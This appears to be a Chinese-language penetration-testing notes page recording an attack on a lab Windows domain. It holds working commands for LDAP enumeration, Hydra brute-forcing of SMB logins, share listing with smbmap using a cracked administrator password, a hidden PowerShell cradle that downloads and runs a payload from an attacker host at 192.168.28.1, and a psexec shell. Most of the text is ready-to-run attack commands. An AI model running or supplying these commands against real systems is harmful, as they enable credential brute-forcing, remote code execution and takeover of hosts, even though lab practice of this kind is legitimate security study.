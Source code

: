 ```
389/tcp open  ldap

ldapsearch -h 192.168.28.10 -p 389 -x -b dc=test,dc=local 
```
## 成功的操作
```
hydra 192.168.28.20 smb -l Administrator -P /usr/share/wordlists/500-worst-passwords.txt -T 64 -V
enum4linux -a -o test.local > test.local.txt
---

Target ........... test.local
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none
```
![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/1.PNG)

smbmap -u administrator -p abc123! -d workgroup -H 192.168.28.20

![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/2.PNG)

```
smbmap -u administrator -p abc123! -d workgroup  -H 192.168.28.20 -P 445 -R admin$ > smb-admin.txt

smbmap -u administrator -p abc123! -d workgroup  -H 192.168.28.20 -P 445 -R c$ > smb-c.txt

smbmap -u administrator -p abc123! -d workgroup  -H 192.168.28.20 -P 445 -R c/users$ > smb-c.txt

smbmap -u administrator -p abc123! -d workgroup  -H 192.168.28.20 -P 445 -R c$/users  > c-user.txt

smbmap -u administrator -p abc123! -d workgroup  -H 192.168.28.20 -P 445 -x 'powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring(\'http://192.168.28.1:80/a\'))\"' > command-smb.txt

powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.28.1:80/a'))"
```
## 拿到一个shell
python /usr/share/doc/python-impacket/examples/psexec.py workgroup/Administrator@192.168.28.20 cmd.exe

![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/3.PNG)


## 参考资料
[Kali Linux信息收集之enum4linux](https://hackfun.org/2016/10/23/Kali-Linux%E4%BF%A1%E6%81%AF%E6%94%B6%E9%9B%86%E4%B9%8Benum4linux/)

[说说Powersploit在内网渗透中的使用](https://www.freebuf.com/sectool/131275.html)
